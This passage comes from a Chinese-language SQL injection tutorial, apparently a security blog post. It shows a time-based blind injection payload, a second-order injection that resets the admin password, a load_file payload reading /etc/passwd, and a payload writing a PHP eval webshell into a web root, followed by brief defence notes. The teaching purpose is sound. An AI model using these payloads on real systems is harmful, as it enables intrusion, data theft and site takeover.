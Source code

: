 ` 1' and if(ascii(substr(user(),1,1))=97,sleep(4),0) --  `



### 4. 二次注入

二次注入是通过与数据库服务器进行交互的过程再次进行注入

如已知管理员用户为admin

修改密码的SQL语句为 `update users set password='__ ' where username ='__ 'and password='__ ';`

注册账号 admin' -- -  密码123456

登录该账号，修改密码 为1111

提交修改密码执行的语句为 `update users set password='1111' where username ='admin' -- - and password='123456';`

因为注释的原因实际执行的语句为 ` update users set password='1111' where username ='admin'`



### 5. 通过SQL注入读写文件

> 关于各种权限
>
> https://www.jb51.net/article/65645.htm



**读文件Payload**

`1' union select 1,load_file("/etc/passwd") -- `

![image-20210520163309519](F:\hexo\source\_posts\web安全漏洞篇\png\img2\image-20210520163309519.png)

**写文件Payload**

通过写文件 可以写入一个webshell,前提是能够获得web服务的路径

```mysql
1' union select 1,"<?php @eval($_GET[x]);?>",3,4,5 into outfile 'C:/Inetpub/wwwroot/cc.php'
```



## 防御SQL注入

### 1. 过滤敏感参数

- 黑名单
- 白名单

### 2. 使用参数化查询



## 其他补充

### 1.关于字段类型
